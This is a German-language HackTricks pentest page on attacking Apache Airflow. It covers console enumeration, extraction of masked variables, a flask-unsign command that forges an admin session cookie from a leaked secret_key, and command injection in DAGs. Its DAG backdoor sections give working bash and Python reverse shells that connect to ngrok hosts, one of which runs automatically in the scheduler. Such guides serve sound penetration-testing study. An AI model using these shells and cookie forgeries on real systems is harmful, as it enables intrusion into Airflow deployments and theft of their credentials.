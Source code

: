 # Apache Airflow Sicherheit

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## Grundlegende Informationen

[**Apache Airflow**](https://airflow.apache.org) dient als Plattform zur **Orchestrierung und Planung von Datenpipelines oder Workflows**. Der Begriff "Orchestrierung" im Kontext von Datenpipelines bezeichnet den Prozess des Anordnens, Koordinierens und Verwaltens komplexer Datenworkflows, die aus verschiedenen Quellen stammen. Der Hauptzweck dieser orchestrierten Datenpipelines besteht darin, verarbeitete und nutzbare Datensätze bereitzustellen. Diese Datensätze werden von einer Vielzahl von Anwendungen umfassend genutzt, einschließlich, aber nicht beschränkt auf Business-Intelligence-Tools, Datenwissenschaft und Machine-Learning-Modelle, die alle grundlegend für die Funktionsweise von Big-Data-Anwendungen sind.

Grundsätzlich ermöglicht Ihnen Apache Airflow, die **Ausführung von Code zu planen, wenn etwas** (Ereignis, Cron) **geschieht**.

## Lokales Labor

### Docker-Compose

Sie können die **Docker-Compose-Konfigurationsdatei von** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) verwenden, um eine vollständige Apache Airflow Docker-Umgebung zu starten. (Wenn Sie auf MacOS sind, stellen Sie sicher, dass Sie der Docker-VM mindestens 6 GB RAM zuweisen).

### Minikube

Eine einfache Möglichkeit, **Apache Airflow auszuführen**, besteht darin, es **mit Minikube** auszuführen:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow Konfiguration

Airflow könnte **sensible Informationen** in seiner Konfiguration speichern oder es könnten schwache Konfigurationen vorhanden sein:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Bevor Sie Airflow angreifen, sollten Sie verstehen, **wie Berechtigungen funktionieren**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Angriffe

### Web-Konsolen-Auflistung

Wenn Sie **Zugriff auf die Web-Konsole** haben, könnten Sie möglicherweise auf einige oder alle der folgenden Informationen zugreifen:

* **Variablen** (Benutzerdefinierte sensible Informationen könnten hier gespeichert sein)
* **Verbindungen** (Benutzerdefinierte sensible Informationen könnten hier gespeichert sein)
* Greifen Sie auf sie zu unter `http://<airflow>/connection/list/`
* [**Konfiguration**](./#airflow-configuration) (Sensible Informationen wie der **`secret_key`** und Passwörter könnten hier gespeichert sein)
* Liste der **Benutzer & Rollen**
* **Code jeder DAG** (der möglicherweise interessante Informationen enthält)

### Abrufen von Variablenwerten

Variablen können in Airflow gespeichert werden, damit die **DAGs** auf ihre Werte zugreifen können. Es ist ähnlich wie bei Geheimnissen anderer Plattformen. Wenn Sie **ausreichende Berechtigungen** haben, können Sie auf sie im GUI unter `http://<airflow>/variable/list/` zugreifen.\
Standardmäßig zeigt Airflow den Wert der Variablen im GUI an, jedoch ist es gemäß [**diesem**](https://marclamberti.com/blog/variables-with-apache-airflow/) möglich, eine **Liste von Variablen** festzulegen, deren **Wert** im **GUI** als **Sternchen** angezeigt wird.

![](<../../.gitbook/assets/image (164).png>)

Diese **Werte** können jedoch immer noch über **CLI** (Zugriff auf die DB erforderlich), **beliebige DAG**-Ausführung, **API**-Zugriff auf den Variablen-Endpunkt (die API muss aktiviert sein) und **sogar das GUI selbst!** **abgerufen** werden. Um auf diese Werte aus dem GUI zuzugreifen, wählen Sie einfach die Variablen aus, auf die Sie zugreifen möchten, und klicken Sie auf Aktionen -> Export.\
Ein weiterer Weg ist, eine **Brute-Force** auf den **versteckten Wert** durchzuführen, indem Sie ihn mit der **Suchfilterung** suchen, bis Sie ihn erhalten:

![](<../../.gitbook/assets/image (152).png>)

### Privilege Escalation

Wenn die Konfiguration **`expose_config`** auf **True** gesetzt ist, können ab der **Rolle Benutzer** **aufwärts** die **Konfiguration im Web** **lesen**. In dieser Konfiguration erscheint der **`secret_key`**, was bedeutet, dass jeder Benutzer mit diesem gültigen Schlüssel seinen eigenen signierten Cookie erstellen kann, um ein beliebiges anderes Benutzerkonto zu **imitieren**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG Backdoor (RCE in Airflow worker)

Wenn Sie **Schreibzugriff** auf den Ort haben, an dem die **DAGs gespeichert sind**, können Sie einfach **einen erstellen**, der Ihnen eine **umgekehrte Shell sendet**.\
Beachten Sie, dass diese umgekehrte Shell innerhalb eines **Airflow-Worker-Containers** ausgeführt wird:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG Backdoor (RCE in Airflow Scheduler)

Wenn Sie etwas **im Stamm des Codes ausführen**, wird es zum Zeitpunkt des Verfassens dieses Textes **vom Scheduler ausgeführt**, ein paar Sekunden nachdem es im DAG-Ordner platziert wurde.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG-Erstellung

Wenn es Ihnen gelingt, **eine Maschine innerhalb des DAG-Clusters zu kompromittieren**, können Sie neue **DAG-Skripte** im `dags/`-Ordner erstellen, die dann in den anderen Maschinen im DAG-Cluster **repliziert werden**.

### DAG-Codeinjektion

Wenn Sie einen DAG aus der GUI ausführen, können Sie **Argumente übergeben**.\
Daher könnte der DAG **anfällig für Befehlsinjektion sein**, wenn er nicht ordnungsgemäß codiert ist.\
Das ist das, was bei dieser CVE passiert ist: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Alles, was Sie wissen müssen, um **nach Befehlsinjektionen in DAGs zu suchen**, ist, dass **Parameter** mit dem Code **`dag_run.conf.get("param_name")`** **abgerufen werden**.

Darüber hinaus könnte dieselbe Schwachstelle bei **Variablen** auftreten (beachten Sie, dass Sie mit ausreichenden Berechtigungen den Wert der Variablen in der GUI **steuern könnten**). Variablen werden **mit** abgerufen:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Wenn sie zum Beispiel innerhalb eines Bash-Befehls verwendet werden, könnten Sie eine Befehlsinjektion durchführen.

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
